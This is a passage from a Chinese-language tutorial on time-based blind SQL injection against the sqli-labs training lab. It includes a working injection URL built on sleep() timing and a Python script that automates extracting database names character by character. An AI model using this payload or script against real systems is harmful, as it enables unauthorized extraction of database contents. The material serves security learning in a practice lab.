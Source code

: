 通过开发者工具观察其相应时间  
  
<img src="https://s1.ax1x.com/2020/10/12/02ysoR.png">  
  
可以看出来，由于用户名第一位字母并不是`a`,语句执行`sleep(3)`,导致相应时间长达5秒，至于多出来的两秒，那是因为还有其他因素导致的时间延迟。  
  
我们来尝试一下正确的语句，知道当前用户名为`root@localhost`,构造语句  

```
http://192.168.43.53/sqli-labs-master/Less-10/?id=1" and if(left((select user()),1)='r',0,sleep(3))--+
```         
  
<img src="https://s1.ax1x.com/2020/10/12/02611K.png">  
  
返回正常响应，两秒。通过验证，错误的注入语句会比正确的正确语句响应延迟3秒，时间盲注成功应用！！！    
  
值得注意的一点是,我刚开始测试的时候使用的是`'`单引号,导致测试怎样都不成功。这个时候就要尝试换成`"`双引号测试,因为页面无法返回异常,所以在刚开始测`SQL`的时候是无法看出来的,这点是需要注意的。  


### c. Python脚本实现自动化注入  
  
通过上面**布尔注入**的学习，我们知道可以通过`burpsuite`完成时间盲注对于数据库的暴破，但是每一次都去观察响应时间并做出判断，效率实在低下。又因为我们创造出了时间延迟这一个不难捕捉到的条件，可以考虑写一个`Python`脚本来实现自动化注入。  
  
脚本代码如下  
  
```python  
__author__ = '404player'

import requests
import time

url = "http://127.0.0.1/sqli-labs-master/Less-10/?id=1"

database = 'select schema_name from information_schema.schemata'

column = 'select column_name from information_schema.columns where table_name="users"'

table = 'select table_name from information_schema.tables where table_schema=database()'

result = ''

for i in range(1,30):
    for j in range(48,122):
        payload = '" and if(ascii(substr(({} limit 0,1),{},1))={},sleep(2),1)--+'.format(database,i,j)
        stime = time.time()
        r = requests.get(url+payload)
        etime = time.time()
        if etime-stime >= 2:
            result +=chr(j)
            print(result)
            break
```  
  